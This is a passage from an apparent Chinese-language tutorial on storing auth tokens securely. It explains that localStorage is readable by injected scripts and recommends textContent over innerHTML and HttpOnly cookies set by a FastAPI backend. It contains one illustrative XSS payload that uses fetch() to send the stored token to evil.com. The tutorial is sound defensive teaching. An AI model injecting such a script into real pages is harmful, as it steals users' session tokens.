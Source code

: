 聽起來很合理，但問題是：**localStorage 是可以被 JavaScript 讀寫的。**

#### 🧪 攻擊模擬：XSS 輕鬆盜走你的 token

只要駭客在你的網站某個輸入欄位塞入一段惡意腳本（例如留言欄、使用者名稱等），就能這樣：

```html
<script>
  fetch("https://evil.com/steal", {
    method: "POST",
    body: localStorage.getItem("token"),
  });
</script>
```

只要你有 **XSS 漏洞（跨站腳本攻擊）**，你的 token 就等於放在路邊。

---

### 3. **尚可的寫法：清理輸入 + 避免 innerHTML**

為了減少被插入 script 的機會，你可以：

* 禁止所有 `<script>`、`<img onerror>` 等可執行元素
* 永遠不要用 `innerHTML = userInput`
* 改用安全框架（React、Vue 預設會防止 XSS）

例如：

```javascript
// ❌ 危險：直接插入 HTML
document.getElementById("name").innerHTML = userInput;

// ✅ 安全：用 textContent
document.getElementById("name").textContent = userInput;
```

這樣可以降低 XSS 機會，但只要你用 localStorage，還是會有「**一旦被入侵，就全數盜走**」的風險。

---

### 4. **安全做法：改用 HttpOnly Cookie 儲存 token**

HttpOnly cookie 是一種「**只有伺服器才能操作**」的 cookie。
你不能用 JS 存取它，這表示即使網站有 XSS，token 也不會被偷。

#### 登入時由後端設定：

```python
from fastapi import Response

@app.post("/login")
def login(response: Response, data: LoginRequest):
    token = create_token(data.username)
    response.set_cookie(
        key="access_token",
        value=token,
        httponly=True,  # 不讓 JS 存取
        samesite="Strict",  # 限制跨站使用
        secure=True,  # 只在 HTTPS 下發送
    )
    return {"msg": "登入成功"}
```
